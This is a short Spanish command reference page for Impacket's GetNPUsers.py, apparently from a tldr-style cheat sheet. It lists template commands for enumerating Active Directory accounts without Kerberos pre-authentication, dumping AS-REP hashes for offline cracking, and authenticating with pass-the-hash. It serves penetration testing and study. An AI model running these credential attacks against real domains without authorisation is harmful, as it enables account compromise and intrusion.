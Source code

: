 # GetNPUsers.py

> Enumera las cuentas de Active Directory con la autenticación previa de Kerberos desactivada, que pueden ser susceptibles a ataques AS-REP roasting.
> Parte del paquete Impacket.
> Más información: <https://github.com/fortra/impacket>.

- Enumera los usuarios con la autenticación previa de Kerberos desactivada (enumeración anónima por defecto):

`GetNPUsers.py {{dominio}}/ -usersfile {{ruta/a/la/lista_de_usuarios}} -dc-ip {{ip_del_controlador_de_dominio}}`

- Realiza roasting AS-REP y vuelca hash descifrables para descifrados sin conexión:

`GetNPUsers.py {{dominio}}/ -usersfile {{ruta/a/la/lista_de_usuarios}} -dc-ip {{ip_del_controlador_de_dominio}} -request`

- Autentica con credenciales válidas (si el enlace anónimo está desactivado):

`GetNPUsers.py {{dominio}}/{{nombre_de_usuario}}:{{contraseña}} -usersfile {{ruta/a/la/lista_de_usuarios}} -dc-ip {{ip_del_controlador_de_dominio}}`

- Utiliza la autenticación pass-the-hash en lugar de una contraseña:

`GetNPUsers.py {{dominio}}/{{nombre_de_usuario}} -hashes {{LM_Hash}}:{{NT_Hash}} -usersfile {{ruta/a/la/lista_de_usuarios}} -dc-ip {{ip_del_controlador_de_dominio}}`

- Guarda la salida en un archivo para su posterior análisis:

`GetNPUsers.py {{dominio}}/ -usersfile {{ruta/a/lista_de_usuarios}} -dc-ip {{ip_del_controlador_de_dominio}} -request > {{ruta/a/salida.txt}}`
